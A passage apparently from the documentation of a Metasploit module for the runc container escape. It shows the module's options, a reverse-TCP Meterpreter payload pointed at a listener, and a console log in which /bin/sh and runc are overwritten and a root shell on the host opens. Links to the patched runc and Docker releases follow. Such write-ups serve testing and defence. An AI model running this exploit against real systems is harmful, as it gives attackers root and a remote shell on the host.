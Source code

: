 ```
   WRITABLEDIR  /tmp             yes       A directory where you can write files.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT  4455             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (Dropper) x64


msf6 exploit(linux/local/docker_runc_escape) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.144.1:4455
[*] Make a backup of /bin/sh (/tmp/VHR0jdR8V)
[*] Overwrite /bin/sh
[*] Upload payload
[*] Writing '/tmp/jPfX1LCnzb' (250 bytes) ...
[*] Upload exploit
[*] Writing '/tmp/aI0aDmv91K' (8744 bytes) ...
[*] Upload loop shell script ('runc' will be backed up to /tmp/IevTLfZ)
[*] Writing '/tmp/Rba74' (351 bytes) ...
[*] Launch exploit loop and wait for 300 sec.
[*] Sending stage (3012548 bytes) to 192.168.144.219
[+] Deleted /tmp/jPfX1LCnzb
[+] Deleted /tmp/aI0aDmv91K
[+] Deleted /tmp/Rba74
[+] Original runc binary restored
[*] Meterpreter session 2 opened (192.168.144.1:4455 -> 192.168.144.219:60124) at 2021-05-21 18:34:46 +0200
[*] Done. Waiting a bit more to make sure everything is setup...
[+] Session ready!

meterpreter > getuid
Server username: root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Fedora 28 (Linux 5.0.16-100.fc28.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > [*] Shutting down Meterpreter...
```


[1]: https://github.com/opencontainers/runc/releases/tag/v1.0.0-rc7
[2]: https://github.com/opencontainers/runc/commit/6635b4f0c6af3810594d2770f662f34ddc15b40d
[3]: https://github.com/docker/docker-ce/releases/tag/v18.09.2

